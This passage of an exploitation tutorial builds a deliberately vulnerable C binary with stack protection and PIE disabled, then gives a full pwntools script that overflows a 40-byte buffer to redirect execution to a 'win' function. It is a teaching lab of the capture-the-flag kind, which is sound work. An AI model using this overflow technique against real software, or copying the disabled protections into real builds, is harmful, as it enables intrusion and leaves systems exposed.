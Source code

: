 ```c
int main() {
    vulnerable_function();
    return 0;
}
```

### Step 2: Compile the Binary

Now, compile it with the security protections disabled so we can perform a simple "return-to-function" exploit.

```bash
gcc -fno-stack-protector -no-pie -o vulnerable vulnerable.c
```

### Step 3: Analyze and Write the Exploit

Our goal is to overflow the `buffer` in `vulnerable_function` and overwrite the return address on the stack with the address of the `win` function.

1.  **Find the offset**: We need to know how many bytes to send to fill the buffer and reach the return address. The buffer is 40 bytes. On x86-64, we also need to overwrite the 8-byte saved base pointer (RBP) before we get to the return address. So, the offset is `40 (buffer) + 8 (RBP) = 48` bytes.
2.  **Find the target address**: We need the address of the `win` function. We can use `pwntools` to find this automatically.

Here is the complete exploit script. Save it as `exploit.py`.

```python
# File: exploit.py
from pwn import *

# --- Configuration ---
binary_path = "./vulnerable"
context.binary = binary_path
context.log_level = 'info'

# --- Analysis ---
# The buffer is 40 bytes. On x86-64, we add 8 bytes to overwrite RBP.
offset = 48

# Use pwntools to find the address of the 'win' function
elf = ELF(binary_path)
win_address = elf.symbols['win']
log.info(f"Calculated offset: {offset}")
log.info(f"Address of 'win' function: {hex(win_address)}")

# --- Exploitation ---
p = process(binary_path)
payload = b'A' * offset + p64(win_address)
p.sendlineafter(b"Enter your name: ", payload)
print(p.recvall().decode())
```
